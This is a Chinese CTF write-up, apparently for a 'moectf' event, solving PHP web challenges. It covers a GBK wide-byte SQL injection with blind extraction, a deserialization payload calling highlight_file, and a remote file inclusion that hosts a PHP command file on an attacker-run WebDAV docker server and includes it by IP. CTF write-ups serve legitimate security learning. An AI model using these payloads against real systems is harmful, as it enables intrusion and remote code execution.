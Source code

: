 ```
    }
    if(!empty($msg)){
        echo "<script>alert('$msg')</script>";
    }
    $conn->close();
    echo "<script type='text/javascript'>";
    echo "window.location.href='index.php'";
    echo "</script>";

```

容易得知gbk编码的宽字节注入，也就是用%df加引号来绕过，因为这样的话%df和反斜杠就会变成一个汉字，从而使反斜杠失效，然后就是通过简单的盲注获得密码。

进入下一关index.php，一个很简单的反序列化，直接让persond的serialize等于`1";highlight_file('flag.php');`就OKK啦！

<br>
<br>

### **include | Author: laotong**

一点进去就是php代码 ~~(这种踏实的感觉)~~

```
<?php
error_reporting(0);
$id= $_COOKIE["ID"];
show_source(__FILE__);
if(unserialize($id) === "$admin")
{
    include("next.php");
    $key = @$_REQUEST['key'];
    if(preg_match('/p@d/is',$key)){
        show_source("next.php");
    }
}
?>

<?php
//hint
$admin = 'm0ectf';
?>
```
通过代码逻辑知道admin是空的，所以直接`s:0:"";`

下一关他会直接跳转到百度，（刚开始我抓不到第一包，浪费了贼多时间，可能是我的burpsuite有问题？？？)

然后抓包得到一串base64加密后的字符串，解密后到`f1na1.php`

这里是文件包含，因为过滤了'`data`','`input`','`tp`','`../`'的大小写形式和'`php`'，所以不能常规的伪协议了

这里我通过搜集资料得知可以用服务器搭建webdev，来达到攻击

```
docker run -v /root/webdav:/var/lib/dav -e ANONYMOUS_METHODS=GET,OPTIONS,PROPFIND -e LOCATION=/webdav -p 80:80 --rm --name webdav bytemark/webdav
```

然后把带有命令代码的php文件放到/root/webdev/data里就行了

直接file=//ip//webdev/文件名

注意环境是windows所以不要用Linux的命令